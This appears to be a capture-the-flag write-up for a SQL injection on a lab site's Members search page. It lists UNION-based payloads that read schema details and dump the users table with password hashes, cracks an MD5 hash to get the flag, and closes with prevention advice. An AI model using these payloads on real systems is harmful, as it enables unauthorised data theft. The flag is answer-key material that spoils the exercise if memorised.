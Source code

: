 # SQL Injection: Members Page Vulnerability

## Overview

A SQL Injection vulnerability found on the Members page allows attackers to exploit weak input validation and extract sensitive data.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- Input in search: `1 OR TRUE`
- Result: Returns all members, confirming SQL injection.

### 2. Extract DB Info
- Query: `-1 union select database(), user()`
- Result: Reveals DB name and user.

### 3. Enumerate Structure
- Query: `-1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --`
- Result: Lists table/column names (e.g., `users`, `user_id`, `countersign`, etc.)

### 4. Dump User Data
- Query: `-1 UNION SELECT concat(Commentaire, countersign), concat(user_id,first_name,last_name, country,town,planet) FROM users --`
- Result: Exposes sensitive data, including password hashes and hints.

### 5. Crack the Flag
- Extract hash: `5ff9d0165b4f92b14994e5c685cdce28`
- MD5 decrypt: `FortyTwo` (use [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to decode MD5)
- Lowercase: `fortytwo`
- Get SHA-256:
    ```bash
    echo -n 'fortytwo' | sha256sum
    ```
- Flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->bind_param("i", $user_id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($user_id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege DB accounts
    - Hide error messages
    - Monitor activity

4. **Web Application Firewall**
    - Deploy a WAF to block common attacks

5. **Regular Security Testing**
    - Run frequent scans and penetration tests

---

> Weak input validation can lead to full data exposure. Always use secure coding practices to protect your applications.
